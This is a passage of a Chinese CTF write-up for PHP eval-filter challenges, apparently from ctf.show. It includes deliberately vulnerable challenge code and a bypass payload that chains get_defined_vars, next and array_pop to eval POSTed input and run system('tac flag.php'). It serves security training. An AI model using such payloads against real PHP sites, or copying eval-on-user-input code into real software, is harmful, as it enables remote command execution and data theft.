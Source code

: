 ```php
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

大眼一看，过滤的挺狠，咱也不知道还剩啥能用的字符

直接去瞅一瞅wp走起

> **get_defined_vars()**此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量。 
>
> **print_r()** 显示关于一个变量的易于理解的信息。如果给出的是      [string](mk:@MSITStore:D:\PHP7中文手册(2018).chm::/res/language.types.string.html)、[integer](mk:@MSITStore:D:\PHP7中文手册(2018).chm::/res/language.types.integer.html)      或 [float](mk:@MSITStore:D:\PHP7中文手册(2018).chm::/res/language.types.float.html)，将打印变量值本身。如果给出的是        [array](mk:@MSITStore:D:\PHP7中文手册(2018).chm::/res/language.types.array.html)，将会按照一定格式显示键和元素。[object](mk:@MSITStore:D:\PHP7中文手册(2018).chm::/res/language.types.object.html)      与数组类似。
>
>  **next()** 和 [current()](mk:@MSITStore:D:\PHP7中文手册(2018).chm::/res/function.current.html)      的行为类似，只有一点区别，在返回值之前将内部指针向前移动一位。这意味着它返回的是下一个数组单元的值并将数组指针向前移动了一位。 

pyload:?c=eval(array_pop(next(get_defined_vars())));

post:system("tac flag.php")

### web41.羽

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 羽
# @Date:   2020-09-05 20:31:22
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:40:07
# @email: 1341963450@qq.com
# @link: https://ctf.show

*/

if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```
